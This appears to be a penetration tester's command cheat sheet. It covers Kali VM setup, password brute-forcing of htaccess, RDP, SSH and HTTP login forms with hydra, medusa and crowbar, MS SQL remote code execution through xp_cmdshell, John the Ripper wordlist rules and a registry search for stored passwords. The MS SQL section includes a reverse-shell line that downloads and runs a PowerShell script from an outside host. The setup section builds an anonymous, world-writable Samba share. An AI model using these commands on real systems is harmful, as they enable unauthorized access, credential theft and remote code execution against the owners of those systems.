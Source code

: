 # Command reference


## Kali VM Setup

Commands for easy first-time setup of a Kali/Parrot VM after setting up a new image
<details>
 <summary>Expand</summary>

 ### OpenVPN Client Setup
 After downloading openvpn client configuration (.ovpn):

 ```
 sudo cp client.ovpn /etc/openvpn/[name].conf`
 systemctl [re]start openvpn.service
 systemctl status openvpn@[name].service
 ```

 ### Install/update useful packages and tools
 
 ```
 sudo apt update -y && sudo apt install -y gobuster crowbar metasploit-framework python3-pip python3-venv seclists curl enum4linux ffuf gobuster nbtscan nikto nmap onesixtyone oscanner smbclient smbmap smtp-user-enum snmp sslscan sipvicious tnscmd10g whatweb wkhtmltopdf`
 sudo python3 -m pip install git+https://github.com/Tib3rius/AutoRecon.git
 ```
 
 If gobuster install doesn't work:
 
 ```
 sudo apt install golang -y && go get github.com/OJ/gobuster && sudo cp ~/go/bin/gobuster /usr/local/bin
 ```

 ### Setup samba share for easy file transfers
 This makes file transfers between VMs/hosts easy if your Kali VM isn't local, like if it's setup on a server and you need to transfer files from another machine on the network.  This will open a share called "kali_share" under /mnt/kali_share with anonymous access allowed, which can obviously be a huge security risk, so configure it with creds and be careful about what you put in the share if you're worried about that.
 
 <details>
  <summary>Samba Config File</summary>
  
  ```
  [global]
  
  workgroup = WORKGROUP
  server string =  Windows ME
  netbios name = Workstation 
  security = user
  map to guest = bad user
  name resolve order = bcast host
  dns proxy = no
  bind interfaces only = yes


  [kali_share]
     path = /mnt/kali_share
     writable = yes
     browseable = yes
     guest ok = yes
     guest only = yes
     read only = no
     create mode = 0777
     directory mode = 0777
     force user = nobody
  ```
 </details>  
 
 Setup your Samba server with the above config file and start the service
 ```
 mkdir /mnt/kali_share
 sudo cp /etc/samba/smb.conf /etc/samba/smb.conf.bak
 sudo cp new.conf /etc/samba/smb.conf
 sudo systemctl [re]start smbd.service
 sudo systemctl enable smbd.service
 ```
 
 ### Misc setup commands
 ```
 sudo updatedb
 sudo systemctl enable ssh
 sudo systemctl enable openvpn
 sudo wget https://raw.githubusercontent.com/harringtonjd0/security/main/.vimrc -O ~/.vimrc
 
 # Disable system beep because it's annoying
 sudo modprobe -r pcspkr
 sudo bash -c 'echo "blacklist pcspkr" >> /etc/modprobe.d/blacklist.conf'
 ```
</details>

## Network Brute Force Commands

### htacess
```
medusa -h <ip> -u user -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/blocked_dir
```

### RDP
```
crowbar -b rdp -s <ip> -u user -C /usr/share/wordlists/rockyou.txt -n 1
```

### SSH
```
hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://<ip> -f -v
```

### HTTP Post
```
hydra <ip> http-form-post "/loginpage.php:user=admin&pass=^PASS^:<login failure message>" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
```


## MS SQL RCE and Rev shell

```
sqsh -U sa -S <ip>:<port>

// Test xp cmdshell
xp_cmdshell 'whoami'
go
```

If necessary, enable xp_cmdshell
```
EXEC SP_CONFIGURE 'show advanced options',1
reconfigure
go


EXEC SP_CONFIGURE 'xp_cmdshell',1
reconfigure
go
```

### Rev shell options 
#### Will be tough if AV is running, try surveying system from here to find a better access method

```
xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring('http://1.1.1.2/rev.ps1')"`  
go
```

can also try certutil or powershell wget (if newish PSVersion)



## John Wordlist Mutation

### Will use Wordlist mode rules from /etc/john/john.conf
```
john --rules --wordlist=wordlist.txt hashes.txt
john --rules --stdout --wordlist=wordlist.txt > mutated_wordlist.txt
```

## John Wordlist Rules
```
[List.Rules:Wordlist]
$[0-9]
$[0-9]$[0-9]
cAz"[0-9]"
cAz"[0-9][0-9]"
cAz"[£!$]"
cAz"[0-9][£!$]"
```

#### or add to a custom rules list like [List.Rules:MyRule]
```
john --rules=MyRule --wordlist=wordlist.txt hashes.txt
```

 a good one to use is --rules=Jumbo



## Windows Misc

### Search through registry for "pass" in value name
```
reg query HKLM /f pass /t REG_SZ /s
```
